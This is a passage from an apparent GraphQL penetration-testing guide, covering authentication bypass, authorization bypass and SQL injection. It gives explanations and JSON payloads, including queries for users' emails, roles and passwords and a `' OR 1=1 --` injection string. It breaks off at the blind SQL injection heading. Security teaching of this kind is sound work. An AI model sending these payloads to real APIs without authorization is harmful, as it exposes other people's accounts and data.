 
### 3. Authentication Bypass

**Explanation:**
Some APIs return sensitive data even if the user isn't logged in properly. Try calling things like `currentUser` or `user(id: 1)`.

**Payload:**

```json
{
  "query": "query { user(id: 1) { id, email, role } }"
}
```

---

### 4. Authorization Bypass

**Explanation:**
Even if you're logged in, you shouldn't see admin or other users’ data. If you can — then it’s a permission issue.

**Payload:**

```json
{
  "query": "query { allUsers { id, name, email, password } }"
}
```

---

### 5. SQL Injection (Basic)

**Explanation:**
If the backend turns your input into raw SQL, you might inject things like `' OR 1=1 --` to break the logic.

**Payload:**

```json
{
  "query": "query { users(where: { name: { _eq: \"' OR 1=1 --\" } }) { id, name } }"
}
```

---

### 6. Blind SQL Injection

**Explanation:**
If you can't see the result directly, you can still test for delay-based SQLi using `SLEEP()` functions (if SQL allows).

**Payload:**

